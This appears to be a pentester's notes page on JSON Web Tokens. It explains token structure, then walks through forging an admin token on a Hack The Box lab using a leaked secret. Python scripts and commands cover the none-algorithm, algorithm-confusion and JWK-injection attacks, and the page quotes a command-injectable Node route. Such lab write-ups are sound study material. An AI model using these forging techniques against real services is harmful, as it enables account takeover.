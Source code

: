 ```yaml
---
description: >-
  Many applications use JSON Web Tokens (JWT) to allow the client to indicate
  its identity for further exchange after authentication.
cover: ../.gitbook/assets/shahadat-rahman-BfrQnKBulYQ-unsplash.jpg
coverY: 0
---
```


# JSON Web token

What is a JSON Web Token or JWT

JWTs are a secure, compact way to transmit information between parties. They're digitally signed, ensuring data integrity and authenticity. First what is JSON? JSON is a lightweight data interchange format that's easy to read and write.&#x20;

{% hint style="info" %}
Each section of a JSON webtoken is base64 encoded and seperated by a `'.'`  .
{% endhint %}

#### Header&#x20;

#### The header is made of the token type which is JWT and the algorithm used like HMAC, SHA256 or RSA.&#x20;

<figure><img src="../.gitbook/assets/image (111).png" alt=""><figcaption><p>jwt header</p></figcaption></figure>

#### Payload&#x20;

Contain predefined claims which can be manipulated, they are statement about an entity which is usually the user. There are 3 types of claims: registered, public and private.

<figure><img src="../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

#### Signature - Generated by hashing header and&#x20;

The first two parts: header and payloads wil not be encoded but not encrypted, anoyone can decode, read but also tamper with. The signatrue is created using the header, payload and the secret which is saved on the server. This is called signing the Json web token.

The signing alorithm takes the header, payload and secret to create a unique signature.&#x20;

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If the two signatures which are being compared are actually different, it means that someone tampered with the data and authentication will fail.
{% endhint %}

### Forging a JWT for unauthorized acces

For this we are using the [Hackthebox Secret machine](https://www.hackthebox.com/machines/secret) . We find a .logs file with the following code which was vulnerable for command injection because it builds a string with user input and is then passed to exec. It starts at the const getLogs

```javascript
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

Creating a json token is done with the variables found in a login file

```javascript
router.post('/login', async (req , res) => {
<SNIP>
 // create jwt
 const token = jwt.sign({ _id: user.id, name: user.name , email: user.email},
process.env.TOKEN_SECRET )
 res.header('auth-token', token).send(token);
})
```

And with the secret in this: `gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

You can either craft it manually using burp or curl but http://jwt.io is a nice website for doing this. Changing the name to "theadmin"&#x20;

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Sending the request we get a response as admin, and simply by changing the name to theadmin user which had admin role we are now logged in as admin user.

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

For practice I wrote this simple python script which will take username and secret as input and then encode the new key.

{% code overflow="wrap" %}
```python
import jwt

def create_token(payload):
    secret = input('Secret: ')
    algorithm = 'HS256'
    
    # Uses jwt module to ecode jwt with payload, secret an alg.
    token = jwt.encode(payload, secret, algorithm=algorithm)
    return token

def json_payload():
    name = input('Name: ')

    # json token payload
    payload = {
        '_id': '67221de57376db047c259cc8', 
        'name': name, 
        'email': 'noreply@fake.com', 
        'iat': 1730289242
    }
    return payload

# Json function into variable payload 
payload = json_payload() 

# Call create_token function using payload function
print("\nAdmin token: ", create_token(payload))
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

### JWT None algorithm attack

We can use cyberchef and use JWT Sign with none algorithm. It could be the web app accpts a token without signature.&#x20;

<figure><img src="../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

### Algorithm Confusion

Here a different algorithm is used then the one that was used to make the token. For example when a token algorithm is RS256 a private and public key is used. We can use the public key to generate a token and change to algorithm to HS256.

```bash
# install rsa_sign2n
git clone https://github.com/silentsignal/rsa_sign2n
cd rsa_sign2n/standalone/
docker build . -t sig2n

# Run 
docker run -it sig2n /bin/bash
```

Then insert 2 JWT's signed with same public key

```
python3 jwt_forgery.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZsdfsfsmFsc2UsImV4cCI6MTcxMTI3MTkyOX0.<SNIP> eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsIsdfsdmV4cCI6MTcxMTI3MTk0Mn0.<SNIP>
```

Check for the pem file \*\_509.pem. Use that public key to create a new token in cyberchef.&#x20;

<figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

### JWK Exploit

When jwk is used its possible to forge a JWT using these details, by using script below, but first generate keys

```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048
mczopenssl rsa -pubout -in private.pem -out public.pem
```

<details>

<summary>forgejwt_withjwk.py</summary>

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {'user': 'htb-stdnt', 'isAdmin': True}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```

</details>

